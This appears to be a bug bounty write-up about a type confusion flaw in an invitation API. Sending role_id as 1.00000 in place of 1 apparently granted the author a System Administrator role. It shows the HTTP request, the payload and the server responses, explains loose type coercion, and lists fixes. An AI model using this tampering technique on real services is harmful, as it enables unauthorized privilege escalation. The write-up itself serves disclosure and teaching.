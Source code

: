 ```yaml
---
title: How I Tricked the System with Type Confusion and Became a System Admin (Briefly)
description: A brief story of how a Type Confusion vulnerability allowed privilege escalation in a real-world scenario.
summary: Discover how a type confusion bug allowed privilege escalation to a System Administrator role by simply tweaking a numeric value in an API request.
date: 2025-03-24
read_time: 5 min
image: https://miro.medium.com/v2/resize:fit:720/format:webp/1*SAY1UW6kMzBqE5t9z7ZNBg.jpeg
tags:
  - Type Confusion
  - Privilege Escalation
  - Security
  - Bug Bounty
  - CTF
  - Vulnerabilities
  - Real-World Stories
---
```


Originally published on Medium: [https://00xmora.medium.com/how-i-tricked-the-system-with-type-confusion-and-became-a-system-admin-briefly-72ad2ce08061](https://00xmora.medium.com/how-i-tricked-the-system-with-type-confusion-and-became-a-system-admin-briefly-72ad2ce08061)

---

## Prologue: A Hacker's Curiosity

As security researchers, we live for those moments of discovery — the subtle gaps in logic, the overlooked edge cases that turn into major vulnerabilities.

This is the story of how a simple data type discrepancy allowed me to bypass access controls and assign myself a **System Administrator** role for an entire organization.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*SAY1UW6kMzBqE5t9z7ZNBg.jpeg)
---

## Understanding Type Confusion

Type Confusion occurs when a program mistakenly treats one type of data as another, leading to unintended behavior.

Languages that support **loose typing**, like JavaScript and Python, are particularly vulnerable.

### Example in JavaScript:

```js
let role = "1";
if (role == 1) {
    console.log("Access granted");
} else {
    console.log("Access denied");
}
````

Even though `role` is a string (`"1"`), JavaScript's loose equality operator `==` coerces it into an integer (`1`), causing unintended access.

Correct way (strict type check):

```js
if (role === 1) {
    console.log("Access granted");
} else {
    console.log("Access denied");
}
```

---

## The Discovery: A Tale of Two Data Types

It all started with a routine inspection of an **invitation system's API**.
My goal? To see how roles were assigned during user invitations.

The `role_id` parameter caught my attention. It was an array, and at first glance, it seemed well-restricted.

### Available frontend roles:

* `3` – Admin
* `4` – Manager
* `5` – User

Trying a non-existing role like `2`:

```
400 Bad Request
```

Then I sent this request:

```http
POST /target/sms/v1/379831/invitation HTTP/2
Host: api.stg.target.com
Content-Type: application/json
Auth: Bearer <valid_token>

{
  "org_id": [379831],
  "role_id": [1],
  "user": {"email": "testuser@example.com"},
  "invitation_authentication_type": ["cred"],
  "is_new": false
}
```

Response:

```
403 Forbidden
```
![403](https://miro.medium.com/v2/resize:fit:720/format:webp/1*x1lK4hsPtdClXT4cK80HNw.png)

This caught my eye – `403` means **access denied**, but the role exists.

If `1` were **completely invalid**, I would expect a `400 Bad Request` like I saw with `2`.

---

## The Bypass: When `1` ≠ `1.00000`

I slightly changed the payload:

```json
{
  "role_id": [1.00000]
}
```

The response:

```
200 OK
```

![200 ok ](https://miro.medium.com/v2/resize:fit:720/format:webp/1*nmybvn8RV2_BLvxarLj7Cw.png)

And shortly after…
An invitation email confirming my **System Administrator** role arrived.

This was it. I had admin privileges over an entire organization!

![invite](https://miro.medium.com/v2/resize:fit:640/format:webp/1*hvfTElW82iAw-NmmCAIoeQ.png)

---

## Why Did This Happen?

The backend probably enforced strict checks on integers like `1`,
but when presented with `1.00000`, it might’ve coerced the value into a float or different representation that **bypassed** validation logic.

This is **Type Confusion** in action.

### How It Happens in Different Languages:

* **JavaScript:** `1 == "1"` → `true`
* **Python:** `int(1.00000) == 1` → `true`
* **C++:** Improper casting can lead to **memory corruption**

---

## The Potential Impact

If this flaw were fully exploitable, attackers could:

* Escalate privileges to **System Administrator**
* Assign **admin roles** to unauthorized users
* Gain **unrestricted access** to internal data

A small oversight, **massive implications**.

---

## How to Fix It

* **Strict Type Validation:** Enforce correct types on backend.
* **Input Normalization:** Sanitize & convert inputs before using them.
* **Authorization Checks:** Don’t rely on just value types — check if the user has **permission** to assign roles.

---

## Epilogue: The Reality of Bug Bounties

The report was **acknowledged but closed as a duplicate**.

Disappointing? Sure.
But also a reminder: **even tiny data inconsistencies** can lead to serious vulnerabilities.

For every closed report, there's another undiscovered flaw waiting to be found.

Until next time, stay curious, stay ethical, and keep hacking.